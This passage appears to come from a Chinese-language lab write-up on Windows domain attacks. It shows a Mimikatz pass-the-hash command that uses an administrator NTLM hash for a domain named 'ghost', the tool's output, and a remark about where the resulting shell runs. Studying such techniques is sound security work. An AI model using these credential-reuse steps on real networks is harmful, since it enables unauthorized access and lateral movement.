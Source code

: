 ![image-20220318183012610](README/image-20220318183012610.png)

查看域控文件目录：

```sh
mimikatz # sekurlsa::pth /user:administrator /domain:ghost /ntlm:520126a03f5d5a8d836f1c4f34ede7ce
user    : administrator
domain  : ghost
program : cmd.exe
impers. : no
NTLM    : 520126a03f5d5a8d836f1c4f34ede7ce
  |  PID  6968
  |  TID  4008
  |  LSA Process is now R/W
  |  LUID 0 ; 22668132 (00000000:0159e364)
  \_ msv1_0   - data copy @ 000001F6C8FFE6F0 : OK !
  \_ kerberos - data copy @ 000001F6C8E5ED28
   \_ des_cbc_md4       -> null
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ des_cbc_md4       OK
   \_ *Password replace @ 000001F6C8465DC8 (32) -> null
```

会弹出来个cmd，这个cmd是域内主机的cmd，不是域控的cmd。

